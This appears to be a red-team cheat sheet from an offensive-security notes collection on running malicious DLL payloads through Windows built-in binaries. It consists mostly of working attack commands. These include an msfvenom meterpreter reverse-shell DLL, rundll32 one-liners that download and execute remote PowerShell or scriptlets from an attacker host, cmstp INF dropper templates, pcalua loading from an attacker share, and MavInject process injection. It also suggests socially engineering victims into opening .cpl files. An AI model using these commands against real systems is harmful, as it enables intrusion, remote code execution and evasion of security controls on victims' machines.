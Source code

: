 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - living-off-the-land
  - T1085
  - T1191
  - windows
---
```

# DLL Execution

## 01 - Generate Payloads

### 1.1 - `msfvenom`

Generate a DLL payload then execute it with `StartW` entry point.

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f dll -o payload.dll
```

### 1.2 - Empire

TODO: Fill this info

```
(Empire) > usestager windows/dll
```

## 02 - Execute Payload

> [!TIP] CPL Payloads
> You can actually social engineer the victim to double click the `.cpl` to establish connection.

### `rundll32.exe`

```
C:\> rundll32.exe payload.dll,StartW
```

To execute the **Control Panel Items** (`.cpl`) payload with entry point either `Control_RunDLL` or `Control_RunDLLAsuser`.

```
C:\> rundll32.exe shell32.dll,Control_RunDLL payload.cpl

C:\> rundll32.exe shell32.dll,Control_RunDLLAsuser payload.cpl
```

A custom payload can be compiled using the `.cpl` Windows features.

```
C:\> rundll32.exe payload.dll,Control_RunDLL
```

Execute a JavaScript that runs a PowerShell script that is downloaded from a remote web site.

```
C:\> rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http[s]://<IP>[:PORT]/payload.ps1')");
```

Execute a JavaScript that runs `calc.exe` and then kills the `rundll32.exe` process that was started.

```
C:\> rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WScript.Shell").Run("calc.exe", 0, true);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}
```

Execute a scriptlet payload from a web server.

```
C:\> rundll32.exe javascript:"..\mshtml,RunHTMLApplication ";document.write();GetObject("script:http[s]://<IP>[:PORT]/payload.sct")"
```

### `regasm.exe`

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe
```

Loads the target .DLL file and executes the RegisterClass function.

```
C:\> regasm.exe AllTheThingsx64.dll
```

Loads the target .DLL file and executes the UnRegisterClass function.

```
C:\> regasm.exe /U AllTheThingsx64.dll
```

### `regsvcs.exe`

```
C:\> regsvcs.exe AllTheThingsx64.dll
```

### `regsvr32.exe`

Execute DLL payload.

```
C:\> regsvr32.exe /s payload.dll
```

### `msiexec.exe`

Execute the DLL payload  (calls `DLLRegisterServer`).

```
C:\> msiexec.exe /y "C:\path\to\payload.dll"
```

Unregisters the target DLL.

```
C:\> msiexec.exe /z "C:\path\to\payload.dll"
```

### `odbcconf.exe`

```
C:\> odbcconf.exe /a {regsvr.exe C:\path\to\payload.dll}
```

### `cmstp.exe`

Fileless scriptlet payload template

```
[version]
Signature=$chicago$
AdvancedINF=2.5

[DefaultInstall_SingleUser]
UnRegisterOCXs=UnRegisterOCXSection

[UnRegisterOCXSection]
%11%\scrobj.dll,NI,http[s]://<IP>[:PORT]/payload.sct

[Strings]
AppAct = "SOFTWARE\Microsoft\Connection Manager"
ServiceName="Yay"
ShortSvcName="Yay"
```

DLL dropper payload template.

```
[version]
Signature=$chicago$
AdvancedINF=2.5

[DefaultInstall_SingleUser]
RegisterOCXs=RegisterOCXSection

[RegisterOCXSection]
C:\path\to\payload.dll
\\<IP>\payload.dll

[Strings]
AppAct = "SOFTWARE\Microsoft\Connection Manager"
ServiceName="Pentestlab"
ShortSvcName="Pentestlab"
```

Execute payload.

```
C:\> cmstp.exe /ni /s payload.inf
```

Execute fileless payload.

```
C:\> cmstp.exe /ni /s http[s]://<IP>[:PORT]/payload.inf
```

### `control.exe`

```
C:\> control.exe .\reflective_payload_loader.dll

C:\> control.exe .\reflective_payload_loader.cpl
```

### `pcalua.exe`

```
C:\> pcalua.exe -a .\payload.exe

C:\> pcalua.exe -a \\<attacker_IP>\<share_name>\payload.dll

C:\> pcalua.exe -a .\payload.cpl
```

### `MavInject.exe`

Inject DLL payload in a process ID.

```
C:\> MavInject.exe <pid> /INJECTRUNNING C:\path\to\payload.dll
```

---
## References

### Backlinks

- [[DLL Injection]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xB - Client-Side Attacks/Delivery Methods/Command and Scripting Interpreter/Desktop/Windows/Code Execution/DotNET/Manual]]

- [[HTA]]

- [[Scriptlet]]

- [[Advpack]]

- [[Pcalua]]

### LOLBAS

- [LOLBAS: Regasm](https://lolbas-project.github.io/lolbas/Binaries/Regasm/)

- [LOLBAS: Regsvcs](https://lolbas-project.github.io/lolbas/Binaries/Regsvcs/)

- [LOLBAS: Msiexec](https://lolbas-project.github.io/lolbas/Binaries/Msiexec/)

- [LOLBAS: Odbcconf](https://lolbas-project.github.io/lolbas/Binaries/Odbcconf/)

- [LOLBAS: Control](https://lolbas-project.github.io/lolbas/Binaries/Control/)

- [LOLBAS: Mavinject](https://lolbas-project.github.io/lolbas/Binaries/Mavinject/)

- [LOLBAS: Setupapi](https://lolbas-project.github.io/lolbas/Libraries/Setupapi/)

- [LOLBAS: leadvpack](https://lolbas-project.github.io/lolbas/Libraries/Ieadvpack/)

- [LOLBAS: Certoc](https://lolbas-project.github.io/lolbas/Binaries/Certoc)

### Red Team Notes

- [Red Team Notes: Control Panel Item](https://www.ired.team/offensive-security/code-execution/t1196-control-panel-item-code-execution)

- [Red Team Notes: Forcing `iexplore.exe` to Load a Malicious DLL via COM Abuse](https://www.ired.team/offensive-security/code-execution/forcing-iexplore.exe-to-load-a-malicious-dll-via-com-abuse)

### DMCXBlue

- [DMCXBlue: Rundll32](https://dmcxblue.gitbook.io/red-team-notes/execution/untitled)

### 0xsp

- [0xsp: handy techniques to bypass environment restrictions](https://0xsp.com/offensive/handy-techniques-to-bypass-environment-restrictions/)
